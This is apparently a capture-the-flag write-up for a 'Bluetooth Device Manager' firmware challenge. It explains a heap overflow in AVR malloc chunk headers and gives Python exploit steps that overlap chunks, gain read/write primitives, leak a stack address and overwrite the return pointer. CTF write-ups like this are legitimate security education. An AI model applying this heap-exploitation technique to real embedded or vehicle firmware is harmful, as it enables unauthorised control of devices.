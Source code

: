 ## Bluetooth Device Manager (200)

### Description

You have a basic car model and would like to enable some extra features? That navigation with traffic should be neat. Right. It is expensive, you know. Or not, if you can access the control interface. Try bluetooth this time. We think, it could be used for purposes other than making calls and playing MP3s.

### Write-up

Another one explotation challenge, "**such heap, much pr0!**" strings in data section give a little hint that heap explotation will be involved.

Firmware implements simple menu with creating, editing and deleting of objects, which are dynamicly allocated on heap. If we will look closer to *"Modify stored device"* code you can notice that during rename new object isn't allocated. Instead previously allocated null terminated string is reused with previous size limit. When I played with inputs I noticed that we can overwrite string termination byte and one byte next after device name, which is *malloc* header of next chunk, things becomes more interesting.

In [avr-libc](https://github.com/vancegroup-mirrors/avr-libc/blob/master/avr-libc/libc/stdlib/malloc.c) repository we can find how avr allocator is working, it's quite simple comparing to allocator for x86.

Our goal here is to allocate structure with pointers to area that we can control and we can do it by manipulationg chunk sizes, as the result we will have write and read primitive.

When we create new device 3 malloc call is invoked, one for device structure (0xb size) and two calls for *key* and *name* fields with variable size. Our strategy is to create two devices (*dev0* and *dev1*) with shortest *key* and *name* fields, then free *dev0* and create new *dev2* with *key* longer than previous, in that case *dev0* freed *key* chunk won't fit new longer *key* and new chunk will be allocated right next to *dev1* *key*. Next using "buggy" *modify* option we encrease size of *dev1* *key* chunk to 0xb (device structure size), as the result this chunk will overlap with *dev2* *key* chunk, which content can modified. Now we free *dev1* and create new *dev3*, as our prediction *dev3* struc will be allocated on crafted overlapped chunk, *name* and *key* pointer will at our control which gives us read and write primitive:

    new_dev(tty,"a","b")             # dev 0
    new_dev(tty,"c","d")             # dev 1
    del_dev(tty,0)                   # free dev 0
    new_dev(tty,"e","ffffffffffff")  # dev2 with key chunk in the end
    
    edit_dev(tty,1,"z0\x0b","a")     # encrease dev1 key chunk
    del_dev(tty,1)                   # free dev 1
    new_dev(tty,"g","h")             # dev3 with overlapped chunk

Few things left to get the flag, to make proper jump we need to now dynamic stack frame size for main function, luckly it's just stored at data section by 0x2192 address. Other thing is that we need to replace 0xDEADBEEF to 0xBAADF00D at 0x2000:

    edit_dev(tty,2,"x","\x01\x01\x01"+"\x01\x20") # set ptr to 0x2001
    edit_dev(tty,2,"x","\x01\x01\x01")            # set ptrl to 0x00 via null terminator
    edit_dev(tty,3,"g",struct.pack("I",0xBAADF00D)+"\xa0\x08\x40\x06\x04\x08\x04\x20") #write 0xbaadf00d and serial config to avoid corruption
    print repr(print_all(tty))
    
    edit_dev(tty,2,"x","\x01\x01\x01"+struct.pack("H",0x2192))  # set ptr to 0x2192
    buff=print_all(tty)                           # leak leak stack frame address
    
    dl="key: "
    buff=buff[buff.find(dl)+len(dl):]
    sp=buff[buff.find(dl)+len(dl):][:2]
    sp=struct.unpack("H",sp)[0]                  # extracting stack frame address
    print "stack frame base:", hex(sp)

    edit_dev(tty,2,"x","\x01\x01\x01"+struct.pack("H",sp-0x2))
    print edit_dev(tty,3,"g",struct.pack(">H",0x182)) # set return pointer to 0x182, big endian! - flag print

After everithing is done properly you will be rewarded with next 200 points.
Full script can be found among files in github repository.
